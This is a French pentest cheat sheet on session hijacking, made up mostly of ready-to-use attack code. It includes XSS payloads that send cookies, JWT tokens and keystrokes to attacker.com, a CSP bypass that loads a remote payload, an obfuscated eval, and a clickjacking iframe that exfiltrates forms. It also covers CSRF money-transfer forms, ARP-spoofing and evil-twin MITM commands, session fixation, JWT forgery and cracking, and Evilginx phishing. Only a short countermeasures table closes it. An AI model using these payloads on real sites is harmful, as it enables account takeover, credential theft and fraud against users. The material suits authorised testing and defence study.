

Le **Session Hijacking** permet d'usurper l'identité d'un utilisateur en volant ses cookies de session, tokens **JWT**, ou en exploitant des failles dans la gestion des sessions. Ce sujet est étroitement lié aux techniques de **Cross-Site Scripting (XSS)**, **Cross-Site Request Forgery (CSRF)**, **JSON Web Token (JWT) Attacks**, **Man-in-the-Middle (MITM) Attacks** et **Web Application Enumeration**.

## Identification des Sessions

### Recherche des cookies de session
```javascript
document.cookie
```

### Vérification du stockage des tokens
```javascript
localStorage.getItem("token");
sessionStorage.getItem("auth");
```

### Analyse des en-têtes de session
```bash
curl -I http://target.com
```

> [!info]
> Les headers sensibles incluent `Set-Cookie`, `Authorization: Bearer` et `X-Auth-Token`.

## Analyse des mécanismes de timeout de session

### Test d'inactivité
Mesurer le temps avant l'invalidation du cookie après une période sans requête.
```bash
# Script simple pour tester l'expiration
while true; do curl -I -H "Cookie: sessionid=xyz" http://target.com/dashboard | grep "200 OK"; sleep 60; done
```

### Test de durée absolue
Vérifier si la session expire après un temps fixe, indépendamment de l'activité.
> [!tip]
> Si le cookie reste valide après 24h+ sans activité, la politique de timeout est probablement inexistante ou trop permissive.

## Analyse des sessions côté serveur (invalidation, stockage)

### Test de déconnexion
Vérifier si le serveur invalide réellement le token côté backend lors d'un logout.
```bash
# 1. Capturer le cookie
# 2. Logout
# 3. Rejouer la requête avec l'ancien cookie
curl -H "Cookie: sessionid=ancien_cookie" http://target.com/api/user
```

### Analyse du stockage
Si le stockage est en base de données, tester l'injection SQL sur les paramètres de session. Si le stockage est en mémoire (Redis/Memcached), tester les vulnérabilités de désérialisation.

## Vol de Session via XSS

### Exfiltration de cookies
```javascript
fetch('http://attacker.com/steal?cookie='+document.cookie);
```

### Capture de token JWT
```javascript
fetch('http://attacker.com/log?token='+localStorage.getItem("token"));
```

### Keylogger via XSS
```javascript
document.onkeypress = function(e) {
    fetch('http://attacker.com/log?key='+e.key);
};
```

## Techniques de bypass de WAF/CSP pour l'injection de scripts

### Contournement CSP
Si `script-src` est restrictif, utiliser des gadgets JSONP ou des bibliothèques autorisées (ex: jQuery, Angular) pour exécuter du code.
```html
<script src="https://trusted-cdn.com/jquery.js"></script>
<script>$.getScript('//attacker.com/payload.js')</script>
```

### Bypass WAF
Utiliser l'encodage ou la fragmentation pour masquer les payloads XSS.
```javascript
// Utilisation de String.fromCharCode pour éviter les mots-clés bloqués
eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41));
```

## Analyse des sessions basées sur le fingerprinting du navigateur

### Identification par User-Agent et IP
Certaines applications lient la session à l'adresse IP ou au User-Agent.
```bash
# Tester si le changement d'IP invalide la session
curl -H "Cookie: sessionid=xyz" --interface eth0:1 http://target.com
```

### Fingerprinting avancé
Si l'application utilise des empreintes (Canvas, WebGL, Fonts), le vol de session nécessite de cloner l'environnement complet de la victime pour éviter une déconnexion forcée par le serveur.

## Hijacking via MITM

### Interception en clair
```bash
tcpdump -i eth0 port 80 -A | grep "Cookie"
```

### Interception avec Ettercap
```bash
ettercap -T -M ARP /192.168.1.10/ //
```

### Réseau Wi-Fi (Evil Twin)
```bash
airmon-ng start wlan0
airodump-ng wlan0mon
```

### DNS Spoofing
```bash
dnsspoof -i eth0
```

> [!warning]
> L'attribut **HttpOnly** empêche l'accès aux cookies via JavaScript, mais ne protège pas contre les attaques **MITM**.

## Session Hijacking via CSRF

### Exécution d'action forcée
```html

```

### Requête POST malveillante
```html
<form action="http://target.com/transfer_money" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="attacker">
  <input type="submit" value="Click here">
</form>
```

### Bypass CORS
```javascript
fetch("http://target.com/api/delete_account", {method: "POST", credentials: "include"});
```

> [!warning]
> Le bypass de **CORS** nécessite une mauvaise configuration de l'en-tête `Access-Control-Allow-Origin`.

## Session Fixation

### Injection d'ID de session
```html
<a href="http://target.com/login?sessionid=abcd1234">Click Here</a>
```

### Exploitation via curl
```bash
curl -X POST "http://target.com/login" -H "Cookie: PHPSESSID=attacker123"
```

> [!tip]
> La régénération de l'ID de session est la défense critique contre la fixation de session.

## Clickjacking

### iframe malveillant
```html
<iframe src="http://target.com" style="opacity:0; position:absolute; width:100%; height:100%;" onload="document.body.innerHTML='<form action=\'http://attacker.com/steal\'>'+document.forms[0].innerHTML+'</form>'; document.forms[0].submit();">
```

## Exploitation JWT

### Décodage
```bash
echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." | base64 -d
```

### Forger un JWT (algorithme none)
```json
{
  "alg": "none",
  "typ": "JWT",
  "sub": "admin"
}
```

### Cassage de clé
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256 jwt_hash
```

> [!warning]
> L'utilisation de `none` dans l'algorithme **JWT** nécessite une configuration serveur permissive.

## Prise de contrôle de session

### Injection de cookie
```javascript
document.cookie = "sessionid=abcd1234";
```

### Usurpation JWT
```bash
curl -H "Authorization: Bearer xyz987" http://target.com/api/profile
```

## Automatisation

### XSSHunter
```html
<script src="https://your-xsshunter.com/xss.js"></script>
```

### Wireshark
```text
http.cookie
```

### Evilginx
```bash
evilginx -p google_phish
```

### Metasploit
```bash
use auxiliary/gather/enum_sessions
set RHOSTS 192.168.1.10
run
```

## Contre-mesures

| Mesure | Implémentation |
| :--- | :--- |
| **HttpOnly** | `Set-Cookie: sessionid=xyz987; HttpOnly` |
| **Secure** | `Set-Cookie: sessionid=xyz987; Secure` |
| **SameSite** | `Set-Cookie: sessionid=xyz987; SameSite=Strict` |
| **Régénération** | `session_regenerate_id(true);` |
| **CSP** | `Content-Security-Policy: default-src 'self'; script-src 'none'` |
| **Clickjacking** | `X-Frame-Options: DENY` |
```